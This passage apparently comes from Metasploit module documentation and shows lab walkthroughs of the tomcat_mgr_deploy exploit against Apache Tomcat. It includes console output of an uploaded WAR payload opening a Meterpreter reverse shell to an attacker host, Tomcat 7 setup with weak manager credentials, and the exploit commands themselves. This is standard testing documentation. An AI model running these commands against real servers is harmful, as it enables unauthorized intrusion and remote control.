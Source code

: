     msf exploit(tomcat_mgr_deploy) > check
    [*] 192.168.2.108:8086 The target appears to be vulnerable.
    msf exploit(tomcat_mgr_deploy) > exploit

    [*] Started reverse TCP handler on 192.168.2.117:4444
    [*] Using manually select target "Java Universal"
    [*] Uploading 6071 bytes as scEYoK0.war ...
    [!] No active DB -- Credential data will not be saved!
    [*] Executing /scEYoK0/jgj6tWcImjhc7rH2F4TDjCpXG.jsp...
    [*] Undeploying scEYoK0 ...
    [*] Sending stage (49409 bytes) to 192.168.2.108
    [*] Meterpreter session 2 opened (192.168.2.117:4444 -> 192.168.2.108:1663) at 2017-01-14 14:30:52 -0500

    meterpreter > sysinfo
    Computer    : winxp
    OS          : Windows XP 5.1 (x86)
    Meterpreter : java/windows

    ```

### Tomcat 7 (7.0.73)
Of note, as of Tomcat 7, the permission role `manager` has been divided into several sub-roles.  Each sub role the user has will change which `path` variable for exploitation.

#### Setup

1. Download and install the pre-req [Java7](http://www.oracle.com/technetwork/java/javase/downloads/jre7-downloads-1880261.html)
2. Download and install [Tomcat7](http://apache.osuosl.org/tomcat/tomcat-7/v7.0.73/bin/apache-tomcat-7.0.73.exe)

The install was default, other than adding a user during install.  No other options were changed.
Of note, the user was given `manager-gui` permissions by default.

#### text/script Interface Exploitation

1. Edit `C:\Program Files\Apache Software Foundation\Tomcat 7.0\tomcat-users.xml` to add the following under the `<tomcat-users>` line:

    ```
    <role rolename="manager-script"/>
    <user username="tomcat" password="tomcat" roles="manager-script"/>
    ```

2. Restart the service

3. Exploitation:

    ```
    msf > use exploit/multi/http/tomcat_mgr_deploy
    msf exploit(tomcat_mgr_deploy) > set rhost 192.168.2.108
    rhost => 192.168.2.108
    msf exploit(tomcat_mgr_deploy) > set path /manager/text
    path => /manager/text
    msf exploit(tomcat_mgr_deploy) > set verbose true
    verbose => true
    msf exploit(tomcat_mgr_deploy) > set HttpPassword tomcat
    HttpPassword => tomcat
    msf exploit(tomcat_mgr_deploy) > set HttpUsername tomcat
    HttpUsername => tomcat
    msf exploit(tomcat_mgr_deploy) > set lhost 192.168.2.117
    lhost => 192.168.2.117
    msf exploit(tomcat_mgr_deploy) > set rport 8087
    rport => 8087
    msf exploit(tomcat_mgr_deploy) > set payload java/meterpreter/reverse_tcp
    payload => java/meterpreter/reverse_tcp
    msf exploit(tomcat_mgr_deploy) > set target 1